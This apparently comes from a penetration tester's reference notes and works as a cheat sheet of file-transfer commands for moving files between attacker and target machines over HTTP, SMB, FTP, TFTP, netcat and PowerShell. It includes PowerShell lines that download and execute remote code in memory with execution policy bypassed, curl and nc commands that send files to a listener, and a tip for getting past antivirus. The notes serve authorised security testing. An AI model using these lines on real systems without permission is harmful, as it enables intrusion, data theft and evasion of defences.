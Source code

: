 # General - File Transfer

On Linux, it is recommended to verify the integrity of the transferred file
using the built-in `md5sum`.

### Server side

The following tools can be used to host files server side.

###### Python - Web Server

```python
python -m SimpleHTTPServer <PORT>
```

###### curl

```bash
# Needs the receiver to be listening
curl -F 'data=@<FILE>' http://<IP>:<PORT>
```

###### nc

```bash
# Needs the receiver to be listening
nc -w 3 <IP> <PORT> < <FILE>
Get-Content <FILE> | ./nc.exe -w 3 <IP> <PORT>
```

###### impacket-smbserver - SMB share

```bash
impacket-smbserver <SHARE_NAME> <SHARE_PATH>
impacket-smbserver <SHARE_NAME> `pwd`
```

###### Windows GUI shares

On Windows, the graphical interface can be used to share a specific folder over
the network. Sharing a folder requires Administrator or SYSTEM privileges.

Note that the final access permissions for a shared resource are determined by
considering both the NTFS permissions and the sharing protocol permissions, and
then applying the more restrictive permissions. Thus, it is possible to grant
"Everyone" full access permission when configuring the share permissions.

```
# Share permissions
Right click folder -> Properties -> Sharing -> Share -> Everyone

# NTFS permissions - Needs to be applied to the folder and its files
Right click folder -> Properties -> Security -> Edit -> Add
  -> From this location -> <DOMAIN>
  -> Enter the object names to select -> <USERNAME> (-> Check Names)
```

###### FTP

```
# pip install pyftpdlib
python -m pyftpdlib -w -p <PORT>
```

###### TFTP

```
# Metasploit server module
use auxiliary/server/tftp

# Unix daemon
mkdir <TFTPFOLDER>
atftpd --daemon --port <PORT> <TFTPFOLDER>
```

### Client side

The following tools can be used to download file from a server client side.  

File transfer is easier on Linux machines as wget, curl or netcat are often
packaged with the operating system distribution.  

On Windows machines, the process is usually not as straight forward.

###### wget

```bash
wget <URL>
wget http:/<IP>:<PORT>/<FILE>
wget -O <OUTPUT_FILE> http://<IP>:<PORT>t/<FILE>
wget -r --no-parent -nH --reject "index.html*" http://<IP>:<PORT>/<DIR>
```

###### curl

```bash
curl <URL> > <OUTPUT_FILE>
curl http://<IP>:<PORT>/<FILE> > <OUTPUT_FILE>
curl -O http://<IP>:<PORT>/<FILE>
```

###### netcat

```bash
nc -l -p <PORT> > out.file
nc -l -p <PORT> | tee out.file
```

###### fetch

The FreeBSD built-in fetch can be used to retrieve a file by URL:

```
fetch <URL>
fetch -o <OUTPUT_FILE> http://<IP>:<PORT>/<FILE>
```

###### echo & base64

The Linux built-ins `echo` and `base64` can be used to easily transfer files on
Linux system. Encode the file to be transferred using base64 server-side, copy
it to the clipboard buffer, and decode it into a file client-side.   

```
# Server-side
base64 -w 0 <FILE> | xclip -selection clipboard

# Client-side
echo '<COPIED>' | base64 --decode > <OUTPUT_FILE>
```

###### Python

```python
python -c "from urllib import urlretrieve; urlretrieve('http://<IP>:<PORT>/<FILE>', '<OUT.FILE>')"
python3 -c "from urllib.request import urlretrieve; urlretrieve('http://<IP>:<PORT>/<FILE>', 'out.file')"
```

###### Powershell

```powershell
Invoke-WebRequest -Uri <URL> -OutFile <FILE>
(New-Object Net.WebClient).DownloadFile('http://<IP>:<PORT>/<FILE>', '<FULLPATH\FILENAME>');

# Load in memory and execute
powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://<IP>:<PORT>/<FILE>'); Invoke-ImportedCMD"
echo IEX (New-Object Net.WebClient).DownloadString('http://<IP>:<PORT>/<FILE>') | powershell -nop -exec bypass -

# Connect to a SMB share
New-PSDrive -Name "LocalMountedFolder" -PSProvider "FileSystem" -Root "\\<IP>\<SHARE>"; cd LocalMountedFolder:
```

###### FTP

To download file interactively:

```
ftp -A <SERVERIP>
```

Paste the following commands into a remote Windows shell and download files over FTP non-interactively (replace <USERNAME> by anonymous if using anonymous login):

```
# Windows
echo open <IP> <PORT> > ftp.txt
echo USER <USERNAME> >> ftp.txt
echo PASS <PASSWORD> >> ftp.txt
echo bin >> ftp.txt
echo GET <FILENAME> >> ftp.txt
echo bye >> ftp.txt
ftp -v -n -s:ftp.txt
```

In case of AV errors while trying to download a binary, omit the exe extension.  

###### TFTP

TFTP is a simple protocol for transferring files, implemented on top of the UDP/IP
protocols. TFTP was designed to be small and easy to implement, and therefore it
lacks most of the advanced features offered by more robust file transfer protocols.
TFTP only reads and writes files from or to a remote server. It cannot list, delete,
or rename files or directories and it has no provisions for user authentication.  

Windows operating systems up to Windows XP and 2003 contain a TFTP
client, by default. In Windows 7, 2008, and above, this tool needs to be explicitly added,
during installation.

```
tftp -i <SERVERIP> GET <FILENAME>
```
